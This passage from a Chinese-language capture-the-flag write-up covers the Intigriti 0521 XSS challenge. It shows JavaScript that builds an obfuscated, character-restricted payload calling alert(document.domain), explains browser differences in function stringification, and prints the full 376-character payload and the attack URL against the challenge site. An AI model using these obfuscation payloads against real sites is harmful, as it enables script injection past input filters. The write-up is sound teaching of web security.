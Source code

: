 ``` js
  getString('some') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('alert(document.domain)') +
  "}```"

console.log('length:', ans.length)
console.log('======= Payload =======')
console.log(ans)
console.log('======= URL =======')
console.log('https://challenge-0521.intigriti.io/captcha.php?c=' + ans.replace(/\+/g, '%2b'))
```

## 再次縮短

把上面的結果拿去平台上 submit 之後，作者說目前看到最短的是 376 個字元。我想了一陣子發現想不太到，然後就靈機一動想說：「那來試試看 v 那個方法好了，先不管瀏覽器問題」

幫大家回顧一下瀏覽器問題是什麼，那問題就是如果想用 function to string 的方式拿到 v，Chrome 跟 Firefox 產生的結果不同：

``` js
[]['some']+''

// Chrome
"function some() { [native code] }"
v: index 23

// Firefox
"function some() {
    [native code]
}"
v: index 27
```

所以同一個 payload 無法同時應用在這兩個網頁上面。

先不管這問題的話，產生出來的結果是這樣：

```
length: 376
======= Payload =======
[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[13]+`${e[0]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[13]]`_${`e`+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[23]+`${0/0}`[1]+`${e}`[21]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[13]+`${e}`[25]+`${0/0}`[1]+`${e}`[23]+`e`+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[14]}`` `
======= URL =======
https://challenge-0521.intigriti.io/captcha.php?c=[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`][`${e}`[5]%2b`${e}`[1]%2b`${e}`[25]%2b`${e}`[18]%2b`${e}`[6]%2b`${e}`[13]%2b`${e[0]}`[0]%2b`${e}`[5]%2b`${e}`[6]%2b`${e}`[1]%2b`${e}`[13]]`_${`e`%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[23]%2b`${0/0}`[1]%2b`${e}`[21]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[13]%2b`${e}`[25]%2b`${0/0}`[1]%2b`${e}`[23]%2b`e`%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[14]}`` `
```

376 個字，跟剛剛的 466 比起來少了快一百個。
